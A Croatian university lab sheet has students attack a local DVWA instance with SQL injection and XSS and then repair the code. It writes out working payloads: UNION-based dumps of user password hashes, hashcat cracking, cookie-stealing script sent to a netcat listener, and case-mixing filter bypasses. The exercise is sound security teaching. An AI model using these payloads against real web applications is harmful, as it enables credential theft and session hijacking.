

**Jezik:** [English](README.md) · Hrvatski

<!-- kicker: Vježba 04 · napadni pa obrani · Sigurnost informacijskih sustava -->
# Vježba 04 — Web napadi I: injection i XSS

*Dva najstarija web napada koja i danas rade: izvući bazu kroz polje za pretragu i oteti sesiju kroz polje za komentar.*

`~90 min` · `Kali · DVWA · preglednik` · `razina: srednja` · `predaja: Merlin`

> [!WARNING]
> **Etika i opseg.** Napadaj isključivo DVWA metu u svom lab okruženju. Isti postupci na tuđem webu su kazneno djelo.

**Scenarij.** Flickerova web aplikacija vjeruje korisničkom unosu. Ti si prvo **napadač** koji kroz SQL injection čita cijelu bazu i kroz XSS krade sesiju, a onda **programer** koji popravlja kod tako da isti unos postane bezopasan.

## Ishodi učenja

- Izvesti SQL injection i izvući podatke iz baze.
- Izvesti reflektirani i pohranjeni XSS te oteti kolačić sesije.
- U ranjivom kodu prepoznati uzrok (spajanje unosa u upit / neizlazno ispisivanje).
- Popraviti ranjivost parametriziranim upitom i izlaznim kodiranjem.

## Preduvjeti

- [ ] [Vježba 00](../lab-00-setup/README.hr.md) odrađena — Kali + Docker rade.
- [ ] [Vježba 03](../lab-03-network/README.hr.md) odrađena — repozitorij je kloniran u `~/Information-System-Security`.
- [ ] Osnove HTTP-a i HTML-a; pojam "sesija / kolačić".
- [ ] Alati za razvojne programere u Firefoxu (**F12**).

## Priprema · ~10 min

Radiš u istom repozitoriju kao u Vježbi 03. Ažuriraj ga, uđi u mapu ove vježbe i zaustavi metu iz Vježbe 03 — obje koriste port 4280, pa može raditi samo jedna:

```bash
cd ~/Information-System-Security && git pull
cd lab-04-web-injection
docker compose -f ../lab-03-network/compose.yml down
```

Pokreni snimanje svog rada (obavezno za predaju). Sve što upišeš u ovaj terminal snima se dok na kraju vježbe ne pritisneš `Ctrl-D`; nakon toga zaustavi metu s `docker compose down`:

```bash
asciinema rec vjezba.cast
```

Podigni metu — isti **DVWA** kao u Vježbi 03, web aplikacija namjerno napravljena nesigurnom:

```bash
docker compose up -d
```

Otvori `http://localhost:4280` u Firefoxu, prijavi se s `admin` / `password`, klikni **Create / Reset Database** pri dnu stranice za postavljanje, pa se ponovno prijavi. U lijevom izborniku otvori **DVWA Security**, odaberi **Low** i klikni **Submit**. Razina sigurnosti određuje koliko se DVWA-in vlastiti kod brani: **Low** nema nikakvu zaštitu, **Medium** dodaje naivan filtar (1.3), a **Impossible** je ispravan popravak (tvoja referenca u Dijelu 2).

Trebat će ti i alati za razvojne programere u pregledniku: **desni klik → Inspect** na bilo kojem dijelu stranice pokaže njegov HTML, koji možeš uređivati uživo.

> [!TIP]
> **Čest problem.** `port is already allocated` znači da meta iz Vježbe 03 još radi: ponovno pokreni redak `docker compose -f ../lab-03-network/compose.yml down`. `no configuration file provided` znači da nisi u mapi `lab-04-web-injection`.

## Pozadina — injection u minuti

Web aplikacija neprestano sastavlja rečenice koje će neki drugi stroj protumačiti — SQL query za bazu, HTML stranicu za preglednik — tako što tvoj unos zalijepi u predložak. Injection se događa kad se taj unos umiješa ravno u rečenicu: jedan navodnik zatvori string literal u queryju, pa se sve iza čita kao *SQL* umjesto kao podatak, a `<script>` tag se čita kao *markup*, pa ga preglednik pokrene kao kod. Program tada radi ono što kažu napadačevi znakovi, a ne ono što je programer mislio. **SQL injection** cilja na bazu — uvjet koji je uvijek istinit ili `UNION SELECT` pretvore jedno dohvaćanje u dump svih korisnika i hasheva lozinki. **XSS** cilja na tuđe preglednike — pohranjeni komentar ili reflektirani parametar nosi script koji se izvrši u sesiji sljedećeg posjetitelja i može mu ukrasti cookie. Isti korijenski uzrok, samo se otima druga vrsta rečenice.

Rješenje je oba puta ista ideja: drži **podatke** i **kod** odvojeno da unos nikad ne može prijeći granicu ni u jedno ni u drugo. Za SQL to znači **parametrizirane (prepared) upite** — struktura upita je fiksirana unaprijed, a tvoj unos ide zasebno kao vrijednost, pa je navodnik samo navodnik. Za HTML to znači **izlazno kodiranje / escaping po kontekstu** — `<` postane `&lt;` u trenutku ispisa, pa se script tag prikaže kao vidljiv tekst umjesto da se izvrši. Nije riječ o rubnom bugu: injection godinama stoji na vrhu ili pri vrhu OWASP Top 10 liste, toliko središnji da je cross-site scripting danas uvršten u istu kategoriju. I skalira se — Samy worm bio je pohranjeni XSS koji se proširio na preko milijun MySpace profila za manje od dana, a svaki zaraženi profil ponovno je posluživao script svakome tko ga pogleda.



Igraš obje strane: u Dijelu 1 probiješ se iz queryja i iz stranice, a u Dijelu 2 isti unos zadržiš bezopasnim — prepared statement za SQL, izlazno kodiranje za HTML.

## Dio 1 — Ofenzivno: injection i XSS · ~45 min

### 1.1 SQL injection — izvuci bazu
**SQL injection** pretvara dio tvog unosa u SQL sintaksu. U lijevom izborniku otvori **SQL Injection** i izvedi napad u malim koracima:

1. U **User ID** upiši `1` i klikni **Submit**. To je normalno početno stanje: aplikacija vraća jednog korisnika čiji je ID 1.
2. Zamijeni ga ovim payloadom i klikni **Submit**:

```text
1' OR '1'='1' #
```

Prvi `'` zatvara vrijednost u `WHERE user_id = '<unos>'`. Izraz `OR '1'='1'` istinit je za svaki redak, a `#` započinje komentar pa baza zanemaruje završni navodnik koji dodaje aplikacija.

> [!NOTE]
> **Očekivano.** Umjesto jednog pojavi se pet zapisa korisnika. Promijenio si značenje queryja aplikacije.

3. Sada zamijeni payload ovim i pošalji ga:

```text
1' UNION SELECT user,password FROM users #
```

`UNION SELECT` dodaje rezultate drugog queryja. Izvorna stranica ispisuje dva stupca, pa i ubačeni query vraća dva: korisničko ime i hash lozinke iz svakog retka tablice `users`.

> [!NOTE]
> **Očekivano.** Stranica prikazuje korisnička imena poput `admin` i 32-znakovne heksadekadske hasheve lozinki.

4. Kopiraj jedan hash bez razmaka u datoteku, pa ponovi MD5 dictionary napad iz [Vježbe 01](../lab-01-hashing/README.hr.md). Zamijeni `<HASH>` kopiranom vrijednošću:

```bash
printf '%s\n' '<HASH>' > hash.txt
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 0 hash.txt --show
```

`-m 0` govori hashcatu da je riječ o MD5 hashu, a `-a 0` iskušava svaku lozinku iz `rockyou.txt`. Redak s `--show` nakon napada ispisuje rezultat kao `hash:lozinka`.

**U izvještaj:** oba SQL payloada, izvučena korisnička imena i hashevi te `hashcat --show` rezultat za jedan razbijeni hash.

### 1.2 XSS — otmi sesiju
**Cross-site scripting (XSS)** navodi preglednik da unos protumači kao JavaScript. Prvo dokaži **reflektirani XSS**, kod kojeg aplikacija odmah vraća payload u istom odgovoru:

1. Otvori **XSS (Reflected)**, zalijepi ovaj payload u **What's your name?** i klikni **Submit**:

```html
<script>alert(document.cookie)</script>
```

`document.cookie` je JavaScriptov pogled na cookieje dostupne toj stranici. DVWA ispisuje unos bez kodiranja, pa preglednik stvara pravi `<script>` element i izvršava ga.

> [!NOTE]
> **Očekivano.** Firefoxov alert prikazuje `security=low` i vrijednost `PHPSESSID`. Zatvori alert za nastavak.

Sada dokaži **pohranjeni XSS**, kod kojeg DVWA sprema payload u knjigu gostiju i izvršava ga kad god netko otvori tu stranicu.

2. Otvori drugi terminal i pokreni **netcat** (`nc`) kao slušatelj (`listener`) na TCP portu 8000. Ostavi ga da radi:

```bash
nc -lvnp 8000
```

Slušatelj je mali server koji čeka zahtjev preglednika i ispisuje ga. Ne mora vratiti web stranicu.

3. Otvori **XSS (Stored)**. HTML obrazac ograničava **Name** na 10, a **Message** na 50 znakova, no to je samo preglednikovo pravilo `maxlength`. Desni klik na polje **Message** → **Inspect**, dvaput klikni `maxlength="50"` u označenom elementu `<textarea>` i promijeni ga u `200`.
4. U **Name** upiši `<MB>`, u **Message** zalijepi ovaj payload, zamijeni `<MB>` svojim matičnim brojem i klikni **Sign Guestbook**:

```html
<script>fetch('http://127.0.0.1:8000/?id=<MB>&c='+encodeURIComponent(document.cookie))</script>
```

Kad se knjiga gostiju ponovno učita, pohranjeni script izvršava se u Firefoxu i šalje cookie u `nc`. `encodeURIComponent` priprema cookie za sigurno umetanje u URL. Ovdje je `127.0.0.1` ispravna adresa: Firefox i slušatelj rade na istom Kaliju; ovaj zahtjev ne šalje DVWA kontejner.

> [!NOTE]
> **Očekivano.** Terminal s `nc` prikazuje HTTP zahtjev `GET /?id=<MB>&c=...` koji sadrži tvoj matični broj i URL-kodirana polja cookieja poput `security%3Dlow` i `PHPSESSID%3D...`.

> [!TIP]
> **Čest problem.** Nema zahtjeva u `nc`? Provjeri da je slušatelj već radio, da je razina sigurnosti još **Low** i da se knjiga gostiju ponovno učitala nakon klika na **Sign Guestbook**. Pritisni `Ctrl-C` za zaustavljanje starog slušatelja prije ponovnog pokretanja.

5. Nakon screenshota pritisni `Ctrl-C` u terminalu s `nc`. Netcat ispisuje zahtjev, ali ne šalje HTTP odgovor, pa bi prva veza inače mogla ostati otvorena.

**U izvještaj:** reflektirani XSS koji ispiše kolačić (screenshot) i pohranjeni XSS koji ga pošalje na tvoj `nc` (screenshot s vidljivim matičnim brojem).

### 1.3 Podigni razinu
Medium dodaje filtre, ali svaki štiti samo od točnog uzorka koji je programer očekivao. Provjeri sva tri slučaja:

1. Otvori **DVWA Security**, odaberi **Medium**, klikni **Submit**, pa se vrati u **SQL Injection**. Tekstno polje sada je padajući izbornik, a obrazac šalje vrijednost HTTP POST zahtjevom.
2. Desni klik na padajući izbornik → **Inspect**. U označenom elementu `<select>` pronađi opciju poput `<option value="1">1</option>`, dvaput klikni njezin `value` i promijeni ga u `1 OR 1=1`. Vrati se na stranicu, odaberi uređenu opciju i klikni **Submit**.

Medium escapea navodnike, ali ovaj query stavlja ID u SQL bez navodnika. Numeričkom payloadu navodnik ne treba, a izmjena HTML-a dokazuje da server ne smije vjerovati padajućem izborniku: klijent može poslati bilo koju POST vrijednost.

> [!NOTE]
> **Očekivano.** Ponovno se prikazuje svih pet korisnika iako je stranica nudila samo ID-ove 1–5.

3. Otvori **XSS (Reflected)** i pošalji ovaj payload s miješanim velikim i malim slovima:

```html
<ScRiPt>alert(document.cookie)</ScRiPt>
```

Medium filtar uklanja samo točan tekst `<script>` pisan malim slovima. HTML tagovi ne razlikuju velika i mala slova, pa Firefox i dalje prepoznaje `<ScRiPt>` kao script element.

4. Provjeri da je raniji `nc` zaustavljen. Otvori **XSS (Stored)**, klikni **Clear Guestbook** i potvrdi upit; time uklanjaš Low payload da ga ne zamijeniš za Medium bypass. Pokreni novi slušatelj s `nc -lvnp 8000`. Zatim desni klik na **Name** → **Inspect** i promijeni `maxlength="10"` u `200`. U **Message** upiši `Medium <MB>`, a u **Name** ovaj payload s miješanim slovima, ponovno zamijenivši `<MB>`:

```html
<ScRiPt>fetch('//127.0.0.1:8000/?id=M<MB>&c='+encodeURIComponent(document.cookie))</ScRiPt>
```

Početni `//` preuzima HTTP protokol stranice i skraćuje payload. Slovo `M` ispred matičnog broja označava Medium test. Medium filtar za pohranjeni XSS uklanja sve tagove iz polja **Message**, ali u polju **Name** traži samo točan tekst `<script>` pisan malim slovima. Tag s miješanim slovima prolazi blacklistu i preglednik ga izvršava.

> [!NOTE]
> **Očekivano.** Reflektirani payload otvara alert s `security=medium`; pohranjeni payload stvara novi zahtjev u `nc` koji sadrži `id=M<MB>`, `security%3Dmedium` i `PHPSESSID%3D...`.

> [!TIP]
> **Čest problem.** Izmjena `maxlength` vrijedi samo na trenutačnoj stranici. Ako je ponovno učitaš prije slanja, ponovi izmjenu. Za SQL injection prije klika na **Submit** odaberi opciju čiji si `value` promijenio.

Medium nije uklonio ranjivost, nego je samo stavio nekoliko stringova na blacklistu. Promjena velikih/malih slova i drugo polje za unos zaobilaze te pretpostavke. Dio 2 popravlja samu granicu tako da isti unos ostane podatak.

**U izvještaj:** screenshotovi rezultata Medium SQLi-ja i oba Medium XSS-a te 3–5 rečenica o tome što je svaki filtar pokušao blokirati i zašto je bypass uspio.

## Dio 2 — Defenzivno: popravi kod · ~30 min

### 2.1 Pronađi uzrok
Dolje desno u svakom modulu klikni **View Source**, pa **Compare All Levels**. U kodu razine **Low** pokaži točan redak gdje se unos **spaja u SQL upit** (SQL Injection: redak koji gradi `$query`) i gdje se **ispisuje bez kodiranja** u HTML (XSS (Reflected): redak koji `$_GET[ 'name' ]` dodaje na stranicu).

### 2.2 Popravi

Oba popravka su isti potez — vrati granicu između koda i podataka koju je spajanje izbrisalo. **Parametrizirani upit** šalje SQL i vrijednosti odvojenim kanalima, pa baza tvoj unos tretira kao vrijednost, a nikad kao sintaksu, bez obzira na znakove u njemu. **Izlazno kodiranje** escapea opasne znakove (`<`, `>`, `&`, navodnike) za kontekst u koji padaju, pa ih preglednik prikaže umjesto da po njima postupi; **Content-Security-Policy** je zaštitna mreža koja odbija pokrenuti ubačeni inline script i ako jedan promakne.

Razina **Impossible** u *Compare All Levels* je DVWA-ina vlastita ispravna verzija — koristi je kao referencu: `prepare(…)` + `bindParam(…)` za SQL, `htmlspecialchars(…)` za HTML. Svojim riječima objasni što svaki od njih mijenja.

**U izvještaj:**
- **SQL:** ispravljeni upit kao **parametrizirani / prepared statement** (isječak).
- **XSS:** izlazno kodiranje/escaping unosa (spomeni ulaznu validaciju i `Content-Security-Policy`).

### 2.3 Preporuke
3 konkretne preporuke za siguran razvoj (parametrizirani upiti svugdje, kodiranje po kontekstu izlaza, CSP, najmanje ovlasti za DB korisnika).

### Za brze — bonus
- Automatiziraj 1.1 sa `sqlmap` (`-u` + kolačić sesije) i izvuci imena tablica.
- Postavi minimalni CSP header koji bi zaustavio tvoj pohranjeni XSS i obrazloži zašto.

## Predaja

- `vjezba04_<MB>.pdf` — payloadi, izvučeni podaci, screenshot XSS-a s matičnim brojem, ispravljeni isječci koda, osvrt.
- **[asciinema](https://asciinema.org/) snimka** rada (`asciinema rec vjezba.cast`, zaustavi s `Ctrl-D`) — obavezna; matični broj na screenshotu XSS-a samo pokazuje čiji je rad, ova snimka je dokaz da je odrađen.

## Bodovanje

| Stavka | Bodovi |
|---|:-:|
| SQL injection (izvučeni podaci + razbijen hash) | 3 |
| XSS (reflektirani + pohranjeni, kolačić na slušatelj) | 3 |
| Ispravljeni kod (parametrizirani upit + kodiranje) | 3 |
| Medium razina i preporuke | 1 |
| Bonus | +1 |
